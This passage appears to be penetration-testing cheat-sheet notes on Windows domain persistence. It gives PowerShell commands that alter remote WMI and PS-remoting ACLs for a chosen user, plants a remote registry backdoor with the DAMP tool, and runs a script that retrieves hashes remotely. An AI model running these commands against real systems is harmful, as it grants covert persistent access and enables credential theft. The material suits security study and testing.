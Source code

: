 > > >
> > > > **ACL modification**
> > > >
> > > > > ```
> > > > > . .\Set-RemoteWMI.ps1
> > > > > ```
> > > > >
> > > > >  **Add permissions - Run on Local Machine**
> > > > >
> > > > > >  ```powershell
> > > > > > Set-RemoteWMI -UserNAme <username> -Verbose
> > > > > >  ```
> > > > >
> > > > > **Add permissions - Run on remote machine **
> > > > >
> > > > > > ```powershell
> > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Verbose
> > > > > > ```
> > > > >
> > > > > **Add permissions - Run on remote machine with specific credentials**
> > > > >
> > > > > > ```powershell
> > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Credential Administrator -Verbose
> > > > > > ```
> > > > >
> > > > > **Remove permissions remotely**
> > > > >
> > > > > > ```powershell
> > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Remote -Verbose
> > > > > > ```
> > > > >
> > > > > ***Execute Remote Command using PS session***
> > > > >
> > > > > ```powershell
> > > > > .. .\Set-RemotePSRemoting.ps1
> > > > > Set-RemotePSRemoting -UserNAme <username> -ComputerName <domainFQDN> -Verbose 
> > > > > ```
> > > > >
> > > > > ***Validation command***
> > > > >
> > > > > ```powershell
> > > > > Invoke-Command -ScriptBlock{whoami;} -ComputerName <DCFQDN>
> > > > > ```
> > > >
> > > > ***Remote Registry modification***
> > > >
> > > > > USE ***DAMP*** with admin privs on remote machine 
> > > > >
> > > > > ```powershell
> > > > > . .\Add-RemoteBackoor.ps1
> > > > > 
> > > > > Add-RemoteRegBackdoor -ComputerName <computerNAme> -Trustee <username> -Verbose 
> > > > > ```
> > > > >
> > > > > ***Abuse***
> > > > >
> > > > > > :information_desk_person: replace $IV by $initIV 
> > > > > >
> > > > > > ```powershell
> > > > > > . .\RemoteHAshRetrival.ps1 
> > > > > > ```